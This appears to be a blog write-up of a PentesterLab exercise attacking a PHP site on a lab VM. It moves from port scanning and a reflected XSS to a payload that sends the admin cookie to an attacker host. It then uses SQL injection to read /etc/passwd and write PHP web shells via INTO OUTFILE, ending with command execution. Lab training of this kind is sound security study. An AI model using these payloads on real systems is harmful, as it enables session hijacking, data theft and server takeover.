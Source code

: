 ```yaml
---
layout: post
title: "Pentesterlab--Xss and MySQL FILE"
date: 2016-04-12 14:19:35 -0400
comments: true
categories: [pentesterlab, XSS, sql injection, mysql]
---
```


*It is time for you to act, LORD; your law is being broken.* --- Psalm 119:126


This course details the exploitation of a Cross-Site Scripting in a PHP based website and how an attacker can use it to gain access to the administration pages. Then, using this access, the attacker will be able to gain code execution on the server using SQL injections.

From Pentesterlab:

The attack is divided into 2 steps:

 1. Detection and exploitation of Cross-Site Scripting vulnerabilities: in this part, you will learn how to detect and exploit Cross-Site Scripting vulnerabilities.
 2. Access to the administration pages, then find and exploit a SQL injection to gain code execution. The last step in which you will access the operating system and run command. 
 

Difficluty: 2/5
<!--more-->

###Forces:

* Nmap
* wfuzz
* Zap
* Firebug
* Cookie Manager+


###Detail Assessment and Planning

* Port scan to identify opened ports, running services and services version. ---Nmap
* Burte force hidden path of the server. ----wfuzz
* Indetify XSS vuln and scan the website pages. ----Zap
* Embeded script into page. ---- Firebug
* Deploy web shell.


###Waging War

####Weaknesses and Strengths

Used Nmap to idenfity opened ports. TCP port 80 is opened and Apache service is running on it.

`nmap -sV -v -A 192.168.79.168`

{% img  /images/blog/pentesterlab/xssandmysql/Selection_001.png   [title manually exploit [alt text]] %}

Use wfuzz to burte force hidden path of the server

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.79.168/FUZZ 2>/dev/null
```

{% img  /images/blog/pentesterlab/xssandmysql/Selection_003.png   [title manually exploit [alt text]] %}


Also I lauched zap to scan the website, try to find interesting things such as injection points and hidden pages. two things are very interesting. First of all, zap raises a flag for a xss vulnerability:

{% img  /images/blog/pentesterlab/xssandmysql/Selection_004.png   [title manually exploit [alt text]] %}

it looks like zap has already inject `<script>alert(1);</script>` into that page. If you visit the link "http://192.168.79.168/post.php?id=1", it will pop up an alert 1.

{% img  /images/blog/pentesterlab/xssandmysql/Selection_013.png   [title manually exploit [alt text]] %}

We can use this xss vulnerability to steal admin's cookie.

keep going ...

Before stealing admin's cookie, we have to setup listener on attacking machine,

`python -m SimpleHTTPServer 4444`

use this payload instead of alert(1) in the xss (use firebug to edit the html)

`<script>document.write('<img src="http://192.168.79.156:4444/?'+document.cookie+'  "/>');</script>`

192.168.79.156 is attacker's machine.

Now we got the cookie.

{% img  /images/blog/pentesterlab/xssandmysql/Selection_014.png   [title manually exploit [alt text]] %}

put the cookie in Cookie Manager+


{% img  /images/blog/pentesterlab/xssandmysql/Selection_015.png   [title manually exploit [alt text]] %}

now visit `http://192.168.79.168/admin/`

{% img  /images/blog/pentesterlab/xssandmysql/Selection_007.png   [title manually exploit [alt text]] %}

Let's explore the admin's pages. First, click `edit`, it will go to `http://192.168.79.168/admin/edit.php?id=2`

{% img  /images/blog/pentesterlab/xssandmysql/Selection_016.png   [title manually exploit [alt text]] %}


now looks like the url contains injection point, lets try to use single quote:

`http://192.168.79.168/admin/edit.php?id=2'`

we get error message:

{% img  /images/blog/pentesterlab/xssandmysql/Selection_017.png   [title manually exploit [alt text]] %}

Now we know that the web sites' absolute path is "/var/www/"

From [pentesterlab](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

Exploiting SQL injection using UNION follows the steps below:

 1   Find the number of columns to perform the UNION
 2   Find what columns are echoed in the page
 3   Retrieve information from the database meta-tables
 4   Retrieve information from other tables/databases

In order to perform a request by SQL injection, you need to find the number of columns that are returned by the first part of the query. Unless you have the source code of the application, you will have to guess this number.  

There are two methods to get this information:

1	using UNION SELECT and increase the number of columns;
2   using ORDER BY statement.


Here we use order by statement to get the number of columns

`http://192.168.79.168/admin/edit.php?id=2 order by 4 --` good
`http://192.168.79.168/admin/edit.php?id=2 order by 5 --` error

Now that we know the number of columns, we can retrieve information from the database. Based on the error message we received, we know that the backend database used is MySQL. 

get DB version:

`http://192.168.79.168/admin/edit.php?id=0%20UNION%20SELECT%201,2,@@version,4`

{% img  /images/blog/pentesterlab/xssandmysql/Selection_018.png   [title manually exploit [alt text]] %}

get /etc/passwd file:

`http://192.168.79.168/admin/edit.php?id=0%20UNION%20SELECT%201,2,load_file("/etc/passwd"),4`

{% img  /images/blog/pentesterlab/xssandmysql/Selection_019.png   [title manually exploit [alt text]] %}

get user info:

`http://192.168.79.168/admin/edit.php?id=0%20UNION%20SELECT%201,2,user(),4`

{% img  /images/blog/pentesterlab/xssandmysql/Selection_020.png   [title manually exploit [alt text]] %}


since the user is root, now we can deploy a webshell...

use `http://192.168.79.168/admin/edit.php?id=0 UNION SELECT 1,2,"<?php @eval($_POST['pass'];)?>",4 into outfile "/var/www/css/evil.php"` to create evil.php under css folder. Encode ` http://192.168.79.168/admin/edit.php?id=0 UNION SELECT 1,2,"<?php @eval($_POST['pass'];)?>",4 into outfile "/var/www/css/evil.php"` part.

Now we can see that the evil.php is created successfully.

{% img  /images/blog/pentesterlab/xssandmysql/Selection_022.png   [title manually exploit [alt text]] %}

Cool... Lets write webshell now

`http://192.168.79.168/admin/edit.php?id=0 UNION select 1,2,"<?php system($_GET['c']); ?>",4 into outfile "/var/www/css/webshell.php"`

of course. encode `0 UNION select 1,2,"<?php system($_GET['c']); ?>",4 into outfile "/var/www/css/webshell.php"`

Now run command:

` http://192.168.79.168/css/webshell.php?c=cat /etc/passwd`

encode ` /etc/passwd`

{% img  /images/blog/pentesterlab/xssandmysql/Selection_023.png   [title manually exploit [alt text]] %}



{% img  /images/blog/pentesterlab/xssandmysql/tumblr_nqnzzzQJGq1rbc9h1o1_500.gif  [title manually exploit [alt text]] %}